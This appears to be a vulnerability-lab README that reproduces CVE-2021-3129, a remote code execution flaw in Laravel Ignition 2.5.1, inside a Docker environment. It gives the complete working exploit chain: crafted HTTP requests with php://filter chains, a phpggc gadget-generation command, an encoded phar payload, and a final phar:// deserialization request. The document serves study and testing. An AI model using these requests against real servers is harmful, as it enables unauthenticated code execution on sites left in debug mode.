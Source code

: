# Laravel Ignition 2.5.1 Remote Code Execution (CVE-2021-3129)

[中文版本(Chinese version)](README.zh-cn.md)

Laravel is a free, open-source PHP web framework created by Taylor Otwell. Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of file_get_contents() and file_put_contents(). This is exploitable on sites using debug mode with Laravel before 8.4.2.

Reference links:

- https://www.ambionics.io/blog/laravel-debug-rce
- https://mp.weixin.qq.com/s/k08P2Uij_4ds35FxE2eh0g

## Environment Setup

Execute the following command to start an application running Laravel 8.4.2 and Ignition 2.5.1:

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080` to see Laravel's default welcome page.

## Vulnerability Reproduce

First, we send the following request. If an Ignition error page appears, it indicates that the vulnerability exists and debug mode is enabled:

![](1.png)

Then, we follow these steps to reproduce the vulnerability:

1. Send the following request to clear the original log file:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```

2. Generate a serialized POC using [phpggc](https://github.com/ambionics/phpggc):

```
php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```

3. Send the following request to add a prefix to the Log:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 163

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "AA"
  }
}
```

4. Send the request with POC as viewFile value:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 5058

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=6F=00=66=00=41=00=67=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=44=00=49=00=41=00=51=00=41=00=41=00=54=00=7A=00=6F=00=30=00=4D=00=44=00=6F=00=69=00=53=00=57=00=78=00=73=00=64=00=57=00=31=00=70=00=62=00=6D=00=46=00=30=00=5A=00=56=00=78=00=43=00=63=00=6D=00=39=00=68=00=5A=00=47=00=4E=00=68=00=63=00=33=00=52=00=70=00=62=00=6D=00=64=00=63=00=55=00=47=00=56=00=75=00=5A=00=47=00=6C=00=75=00=5A=00=30=00=4A=00=79=00=62=00=32=00=46=00=6B=00=59=00=32=00=46=00=7A=00=64=00=43=00=49=00=36=00=4D=00=6A=00=70=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=6C=00=64=00=6D=00=56=00=75=00=64=00=48=00=4D=00=69=00=4F=00=30=00=38=00=36=00=4D=00=6A=00=55=00=36=00=49=00=6B=00=6C=00=73=00=62=00=48=00=56=00=74=00=61=00=57=00=35=00=68=00=64=00=47=00=56=00=63=00=51=00=6E=00=56=00=7A=00=58=00=45=00=52=00=70=00=63=00=33=00=42=00=68=00=64=00=47=00=4E=00=6F=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4D=00=54=00=59=00=36=00=49=00=67=00=41=00=71=00=41=00=48=00=46=00=31=00=5A=00=58=00=56=00=6C=00=55=00=6D=00=56=00=7A=00=62=00=32=00=78=00=32=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=30=00=38=00=36=00=4D=00=6A=00=55=00=36=00=49=00=6B=00=31=00=76=00=59=00=32=00=74=00=6C=00=63=00=6E=00=6C=00=63=00=54=00=47=00=39=00=68=00=5A=00=47=00=56=00=79=00=58=00=45=00=56=00=32=00=59=00=57=00=78=00=4D=00=62=00=32=00=46=00=6B=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=41=00=36=00=65=00=33=00=31=00=70=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=30=00=4F=00=69=00=4A=00=73=00=62=00=32=00=46=00=6B=00=49=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4F=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=5A=00=58=00=5A=00=6C=00=62=00=6E=00=51=00=69=00=4F=00=30=00=38=00=36=00=4D=00=7A=00=67=00=36=00=49=00=6B=00=6C=00=73=00=62=00=48=00=56=00=74=00=61=00=57=00=35=00=68=00=64=00=47=00=56=00=63=00=51=00=6E=00=4A=00=76=00=59=00=57=00=52=00=6A=00=59=00=58=00=4E=00=30=00=61=00=57=00=35=00=6E=00=58=00=45=00=4A=00=79=00=62=00=32=00=46=00=6B=00=59=00=32=00=46=00=7A=00=64=00=45=00=56=00=32=00=5A=00=57=00=35=00=30=00=49=00=6A=00=6F=00=78=00=4F=00=6E=00=74=00=7A=00=4F=00=6A=00=45=00=77=00=4F=00=69=00=4A=00=6A=00=62=00=32=00=35=00=75=00=5A=00=57=00=4E=00=30=00=61=00=57=00=39=00=75=00=49=00=6A=00=74=00=50=00=4F=00=6A=00=4D=00=79=00=4F=00=69=00=4A=00=4E=00=62=00=32=00=4E=00=72=00=5A=00=58=00=4A=00=35=00=58=00=45=00=64=00=6C=00=62=00=6D=00=56=00=79=00=59=00=58=00=52=00=76=00=63=00=6C=00=78=00=4E=00=62=00=32=00=4E=00=72=00=52=00=47=00=56=00=6D=00=61=00=57=00=35=00=70=00=64=00=47=00=6C=00=76=00=62=00=69=00=49=00=36=00=4D=00=6A=00=70=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=6A=00=62=00=32=00=35=00=6D=00=61=00=57=00=63=00=69=00=4F=00=30=00=38=00=36=00=4D=00=7A=00=55=00=36=00=49=00=6B=00=31=00=76=00=59=00=32=00=74=00=6C=00=63=00=6E=00=6C=00=63=00=52=00=32=00=56=00=75=00=5A=00=58=00=4A=00=68=00=64=00=47=00=39=00=79=00=58=00=45=00=31=00=76=00=59=00=32=00=74=00=44=00=62=00=32=00=35=00=6D=00=61=00=57=00=64=00=31=00=63=00=6D=00=46=00=30=00=61=00=57=00=39=00=75=00=49=00=6A=00=6F=00=78=00=4F=00=6E=00=74=00=7A=00=4F=00=6A=00=63=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=35=00=68=00=62=00=57=00=55=00=69=00=4F=00=33=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=59=00=57=00=4A=00=6A=00=5A=00=47=00=56=00=6D=00=5A=00=79=00=49=00=37=00=66=00=58=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=41=00=43=00=6F=00=41=00=59=00=32=00=39=00=6B=00=5A=00=53=00=49=00=37=00=63=00=7A=00=6F=00=79=00=4E=00=54=00=6F=00=69=00=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=63=00=47=00=68=00=77=00=61=00=57=00=35=00=6D=00=62=00=79=00=67=00=70=00=4F=00=79=00=42=00=6C=00=65=00=47=00=6C=00=30=00=4F=00=79=00=41=00=2F=00=50=00=69=00=49=00=37=00=66=00=58=00=31=00=39=00=42=00=51=00=41=00=41=00=41=00=47=00=52=00=31=00=62=00=57=00=31=00=35=00=42=00=41=00=41=00=41=00=41=00=4C=00=71=00=2F=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4C=00=59=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=51=00=75=00=64=00=48=00=68=00=30=00=42=00=41=00=41=00=41=00=41=00=4C=00=71=00=2F=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4C=00=59=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=64=00=47=00=56=00=7A=00=64=00=48=00=52=00=6C=00=63=00=33=00=52=00=64=00=30=00=6B=00=2F=00=31=00=70=00=52=00=49=00=71=00=57=00=72=00=36=00=77=00=46=00=6C=00=38=00=30=00=4D=00=2B=00=48=00=4B=00=2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00"
  }
}
```

5. Send the following request to clean up the Log file:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 299

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```

This step may encounter exceptions, resulting in failure to properly clean up the Log file. If this happens, you can try again from step 1.

6. Use `phar://` for deserialization to execute arbitrary code:

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 210

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"
  }
}
```

Note that an absolute path must be used at this point.

As you can see, PHPINFO has been successfully executed:

![](2.png)

